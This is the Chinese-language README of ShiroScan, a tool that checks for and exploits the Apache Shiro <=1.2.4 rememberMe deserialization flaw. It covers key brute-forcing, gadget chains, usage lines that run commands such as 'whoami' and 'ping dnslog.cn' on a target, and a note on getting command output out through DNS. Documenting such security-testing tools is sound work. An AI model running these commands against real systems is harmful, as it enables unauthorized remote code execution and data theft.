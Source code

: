 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    2021·1·15:
    改动内容：1.删除CC8利用链
    改动内容：2.新增xray总结的k1到k4这4个利用链
    改动内容：3.新增Jdk8u20的利用链
    改动内容：4.新增GCM加密发包
    
    过往:
    改动内容：1.新增17个利用链模块,共28个利用链，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.可直接获得目标使用key值
    改动内容：3.新增30个key(再多意义也不大)
    改动内容：4.输入命令自动进行bash编码，防止未了解此漏洞的人踩坑,但要注意的是如果执行的命令为携带``符号，常用于dnslog外带命令，需自行传入bash编码，否则终端会自行将本地执行结果带入命令中

```
共集成51个key进行fuzz
```
![](./run.png)
* 如果有帮助，请点个star哦， blog：https://www.svenbeast.com
* pip3 install -r requirments.txt   
* 若import模块错误，安装不成功，请到linux系统安装运行，或者去python库将crypto首字母改为大写并尝试pip install pycryptodome")
* 如果存在异常java信息，请使用jdk1.8环境运行，避免使用高版本java运行

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 28个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为目标使用的编码很冷门，可使用其他工具

* 请自行收集编码，在moule下的key.log中自行添加即可(格式: key:任意值)

## 本着尽可能的检测目标是否存在漏洞为目的所开发，并未对利用链进行大量删减
## 不推荐当做exp使用，效率问题
## 内置的yso的jar包存在tomcat回显链，并未集成到工具中，初衷是漏洞检测工具，有条件的可自行生成payload，header加入cmd:whoami即可
## 仅供安全人员验证,测试是否存在此漏洞
